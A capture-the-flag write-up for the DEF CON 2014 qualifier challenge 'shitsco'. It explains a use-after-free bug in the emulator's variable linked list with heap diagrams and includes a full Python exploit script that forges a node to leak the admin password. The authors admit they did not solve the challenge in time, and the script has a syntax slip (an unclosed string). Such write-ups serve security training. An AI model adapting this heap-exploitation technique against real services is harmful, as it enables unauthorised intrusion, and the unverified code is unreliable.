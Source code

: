 # DEF CON CTF Qualifier 2014: shitsco

**Category:** Gynophage
**Points:** 2
**Description:**

> [http://services.2014.shallweplayaga.me/shitsco_c8b1aa31679e945ee64bde1bdb19d035](shitsco_c8b1aa31679e945ee64bde1bdb19d035) is running at:
>
> `shitsco_c8b1aa31679e945ee64bde1bdb19d035.2014.shallweplayaga.me:31337`
>
> Capture the flag.

## Write-up

Shitsco is a small router emulator. It allows you to ping, to tracert, to use the shell (Yhea, right! :D) and to set and view variables.

As we smell a rat in the variable handling we look into it.

Variables get stored dynamically in a double linked list as shown next.

```c
struct node {
    char *name;
    char *value;
    struct node *next;
    struct node *prev;
};
```

If you create a couple of nodes and delete the first, its strings get freed, their pointers set to NULL but not the link to the next node. Further, commands like show will always start the traversal by the first node, which will succeed until the corresponding memory gets overwritten. Thats what we gonna exploit.

The key is to set variable name and value the same size as a node internally has -> 4 * 4bytes = 16bytes.
So that when adding nodes, the strings and the node itself consume the same amount of memory.


The following is the memory layout with 3 nodes added(= 3 variables set). Note that there is no first node. The first node is in static memory. Also, every allocated heap block has the same length(size).

```
--------------------------------------------------------------
                   /----link----\
HEAP: [ S ][ S ][ N ][ S ][ S ][ N ][ S ][ S ]    N = Node
                 ^                                S = String
                 |
first.next ------/
--------------------------------------------------------------
```

Because of a bug in the system, the first node never gets unlinked properly.
When we delete it, only the strings get freed and set to NULL. The *next pointer stays the same.

```
--------------------------------------------------------------
                   /----link----\
HEAP: [   ][   ][ N ][ S ][ S ][ N ][ S ][ S ]
first.next ------/
--------------------------------------------------------------
```

Deleting also the second results as depicted next.

```
--------------------------------------------------------------
                   /----link----\
HEAP: [   ][   ][   ][   ][   ][ N ][ S ][ S ]
first.next ------/
--------------------------------------------------------------
```

The linked list is still intact because the *next pointers never gets set to NULL when deleting the fist node in the list.

When we now create a new node, the system will use the first static node again and just looks to allocate memory for the name and value. As we created uni-sized blocks, the malloc algorithm would use simply the first two free blocks again. Better would have been, if we had set the first block to a smaller size, let's say 11bytes, so the allocations would be like below.


```
--------------------------------------------------------------
 small\          /----link----\
HEAP: [ ][   ][   ][   ][   ][ N ][ S ][ S ]
first.next ----/
--------------------------------------------------------------
```

If we create now a new variable with 16bytes strings, the malloc algorithm would shift right by one because the first block is too small for both. That results in having the value string in the location the *first.next pointer still points to. By using good values for the string and link pointers we can get the password out of the memory.

>set_var(s, 'HACKHACKHACKHACK', pack('i', PASSWORD_ADDR) * 2 + pack('i', NULL_NODE_ADDR))


```
--------------------------------------------------------------
                 /----link----\
HEAP: [ ][ S ][ X ][   ][   ][ N ][ S ][ S ]    X = Fake node
first.next ----/
--------------------------------------------------------------
```

After getting the password, we just have needed to use it
> enable SecretPassword
>
> flag

unfotunately, we were not able to solve it in time.


## exploit.py

Set ip and port and use it with ./exploit.py or ./exploit.py -d

```python
#!/bin/python2
import socket
from struct import pack
import logging
import sys

# SETTINGS
###################################
TARGET = 'shitsco_c8b1aa31679e945ee64bde1bdb19d035.2014.shallweplayaga.me:31337
#TARGET = 'localhost:5000'

PASSWORD_ADDR =  0x804c3a0
NULL_NODE_ADDR = 0x804c37c

# Don't touch things below
TCP_IP, TCP_PORT = TARGET.split(':')
TCP_PORT = int(TCP_PORT)

BUF_SIZE = 2000
MARKER = 'aaa: '

# LOGGING
logging.basicConfig(format='%(message)s')
log = logging.getLogger(__name__)
if '-d' in sys.argv: log.setLevel(logging.DEBUG)
else: log.setLevel(logging.INFO)
D = log.debug
I = log.info

# HELPERS
###################################
def connect():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((TCP_IP, TCP_PORT))
    data = s.recv(BUF_SIZE)
    D(data)
    return s

def disconnect(s):
    s.send('quit\n')
    data = s.recv(BUF_SIZE)
    D(data)
    s.close()

def show(s):
    cmd = 'show'
    s.send(cmd + '\n')
    data = s.recv(BUF_SIZE)
    D(cmd)
    D(data)
    return data

def set_var(s, name, value='1'):
    cmd = 'set %s %s' % ( name, value)
    s.send(cmd + '\n')
    data = s.recv(BUF_SIZE)
    D(cmd)

def del_var(s, name):
    cmd = 'set %s' % name
    s.send(cmd + '\n')
    data = s.recv(BUF_SIZE)
    D(cmd)

# MAIN
###################################
s = connect()

set_var(s, 'a' * 11, '01234567890ABCDEF')
set_var(s, 'b' * 16, 'AKABKN|OWNS!!!111')
set_var(s, 'C' * 16, 'XXXXXXXXXXXXXXXXX')

del_var(s, 'a' * 11)
del_var(s, 'b' * 16)

set_var(s, 'HACKHACKHACKHACK', pack('i', PASSWORD_ADDR) * 2 + pack('i', NULL_NODE_ADDR))

data = show(s)
found = data.find(MARKER) if data else 0

if found:
    I('Password: %s', data[found + len(MARKER):data.find('\n$')])

disconnect(s)
```

## Other write-ups and resources

* <https://blog.skullsecurity.org/2014/defcon-quals-writeup-for-shitsco-use-after-free-vuln>
* <http://www.endgame.com/blog/defcon-capture-the-flag-qualification-challenge-1.html>
* <http://v0ids3curity.blogspot.in/2014/05/defcon-quals-2014-gynophage-shitsco-use.html>
